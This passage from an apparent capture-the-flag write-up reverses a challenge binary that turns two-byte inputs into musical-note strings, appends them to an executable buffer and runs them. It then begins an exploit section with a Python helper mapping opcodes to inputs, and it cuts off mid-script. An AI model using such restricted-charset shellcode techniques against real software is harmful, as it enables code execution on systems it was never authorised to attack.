 ```
0x56555c99: "E"
gef➤  x/s 0x56555c9b
0x56555c9b: "F"
gef➤  x/s 0x56555c9d
0x56555c9d: "F#"
gef➤  x/s 0x56555ca0
0x56555ca0: "G"
gef➤  x/s 0x56555ca2
0x56555ca2: "G#"
```

Also another thing to note, the max value of the variable stored at offset `548` is `9`. This is because we can't input a value greater than `0x67de`, and when we run that through the algorithm we get `9`.  After that we see a function that will move the contents of the variables stored at `544` and `548` into the variable stored at offset `540`. When it does this, the signed integer will be converted to it's ascii form, so `8` will become `0x38`:

```
    moveData(ebp_register - 540, "%s%d", *(_DWORD *)(ebp_register - 544), *(_DWORD *)(ebp_register - 548));
```

Then finally on the last line for this for loop, which will append those two bytes to the end of the data pointed to by `rwxPtr` (starts at`0x60608000`). This is where our shellcode ends up:

```
    appenData(rxwPtr, ebp_register - 540);
``` 

After that for loop is over, we see that the code will append a `int 80` instruction to the end of our shellcode (opcodes `0x80cd`), then run the muscial note shellcode:

```
  shellcodeLen = &rxwPtr[strlen(rxwPtr)];
  *(_WORD *)shellcodeLen = 0x80CDu;
  *((_BYTE *)shellcodeLen + 2) = 0;
  setupChunk(ebp_register - 540, 79, 512);
  strncpy(ebp_register - 540 + 64, "---- Welcome to Note Oriented Programming!! ----", 48);
  ((void (*)(void))rxwPtr)();
```

So just to do a quick recap, it scans in input in two byte blocks. It checks to make sure their value is within a certain range, then does some math on them to come up with with one of 12 1-2 character strings (all musical notes) and a number between 0-1. It will then take those two things, append it to the end of shellcode, and run it. 

### Exploit

Looking through the list of opcodes that we have available (I just used the next step to send every opcode to see what we have) we can see that we have access to some of the `inc`, `xor`, `and`, `cmp` and a few other instructions. The first step we have is to figure out how to send sepecific inputs to get specific opcodes. For this I just whipped up a quick python script that would print a dictionary, mapping desired opcodes with one of their corresponding inputs:

```
  1 from math import *
  2 
  3 noteChars = ["A", "A#", "B", "C", "C#", "D", "D#", "E", "F", "F#", "G", "G#"]
  4 validBytes = {}
  5 
  6 def runMath(inp):
  7         x = float(inp) / 27.5
  8         x = log(x, 2)
  9         x = x * 12
 10         x = x + .5
 11         return x
 12 
 13 def reverseBits(x):
```